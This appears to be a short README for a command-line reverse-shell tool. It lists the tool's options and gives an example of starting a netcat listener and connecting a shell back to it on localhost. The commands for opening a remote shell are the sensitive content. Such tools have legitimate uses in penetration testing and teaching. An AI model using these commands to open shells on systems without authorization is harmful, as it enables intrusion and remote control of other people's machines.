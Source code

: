 # reverse-shell

A simple reverse shell

## Usage

```
usage: reverse-shell [options] <host> <port>
options:
	-h         : display this and exit
	-f         : foreground mode (eg: no fork)
	-6         : use IPv6 socket
	-s <shell> : give the path shell (default: /bin/sh)
```

## Example

On the 'client' side, we create the listener :
```
nc -lp 4445
```

On the 'server' side, we bind the shell to the listener :
```
./reverse-shell 127.0.0.1 4445
```
